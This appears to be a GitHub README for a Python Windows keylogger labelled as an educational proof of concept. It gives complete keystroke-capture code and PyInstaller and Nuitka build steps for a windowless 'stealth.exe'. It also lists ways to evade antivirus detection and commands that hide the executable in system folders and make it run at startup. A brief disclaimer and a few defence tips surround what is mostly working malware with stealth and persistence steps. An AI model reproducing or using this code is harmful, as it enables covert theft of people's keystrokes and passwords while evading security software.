 # Windows Keylogger - Proof of Concept

## ⚠️ Disclaimer
> This project is for **educational purposes only**. Do not use it for illegal activities. Unauthorized use of keyloggers is illegal and unethical. Only test on your own system or with explicit permission.

## 📌 Overview
This is a simple **Windows keylogger** written in Python. It captures keystrokes and logs them to a file (`log.txt`). The script runs in the background and can be compiled into an `.exe` for stealthy execution.

## 🔧 Features
- Captures **all keystrokes** (letters, special keys, spaces, and enters)
- Stores logs in **`%APPDATA%\log.txt`**
- Runs **silently** in the background
- Can be converted into a **standalone executable** (`.exe`)
- Supports **various obfuscation techniques** to bypass antivirus (AV) detection

---

## 🚀 Installation & Usage
### **Step 1: Install Required Modules**
Ensure Python is installed, then run:
```bash
pip install pynput
```

### **Step 2: Create the Keylogger Script**
Save the following as `keylogger.py`:

```python
from pynput import keyboard
import os

# Define log file location
log_file = os.path.join(os.getenv("APPDATA"), "log.txt")

def write_to_file(key):
    with open(log_file, "a") as file:
        file.write(key)

def on_press(key):
    try:
        if key == keyboard.Key.space:
            write_to_file(" ")
        elif key == keyboard.Key.enter:
            write_to_file("\n")
        elif hasattr(key, 'char'):
            write_to_file(key.char)
        else:
            write_to_file(f" [{key}] ")
    except Exception as e:
        pass

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

### **Step 3: Convert to an Executable (Stealth Mode)**
To run the script on a machine **without Python installed**, convert it to an executable:

```bash
pyinstaller --onefile --noconsole --name=stealth.exe keylogger.py
```

📌 **Explanation:**
- `--onefile` → Bundles everything into a single `.exe`
- `--noconsole` → Hides the terminal window
- `--name=stealth.exe` → Renames output file

The executable will be generated in the `dist/` folder.

### **Step 4: Running the Keylogger**
Simply run:
```bash
./stealth.exe
```

Keystrokes will be logged in:
```plaintext
C:\Users\YourUsername\AppData\Roaming\log.txt
```

---

## 🔥 Stealth & Obfuscation Techniques
### **1️⃣ Change Function & Variable Names**
Windows Defender detects common function names. Rename them:
```python
def k_capture(k):  # Instead of on_press
```

### **2️⃣ Encode Keystrokes**
Instead of writing raw text:
```python
write_to_file(str(ord(key.char)) + " ")
```

### **3️⃣ Change Log File Location**
```python
log_file = os.path.join("C:\\Users\\Public", "win32_logs.txt")
```

### **4️⃣ Hide the Executable**
Move it to a system folder and make it hidden:
```powershell
move stealth.exe C:\Users\Public\Libraries\
attrib +h +s C:\Users\Public\Libraries\stealth.exe
```

### **5️⃣ Run at Startup (Persistence)**
Add to Windows startup folder:
```powershell
$path = "C:\Users\$env:USERNAME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\stealth.exe"
Copy-Item "C:\Users\Public\Libraries\stealth.exe" -Destination $path
```

### **6️⃣ Use a Different Compiler to Reduce AV Detection**
Instead of PyInstaller, try Nuitka:
```bash
pip install nuitka
nuitka --onefile --windows-disable-console keylogger.py
```

---

## 🛡 Defense Against Keyloggers
🔹 **Enable Windows Defender** and keep it updated
🔹 **Monitor Startup Items** (`msconfig`)
🔹 **Use Anti-Keylogger Tools**
🔹 **Check Suspicious Processes** in Task Manager

---

## ⚠️ Ethical Reminder
🚨 **This project is strictly for research and learning. Do not use it on unauthorized systems.** 🚨

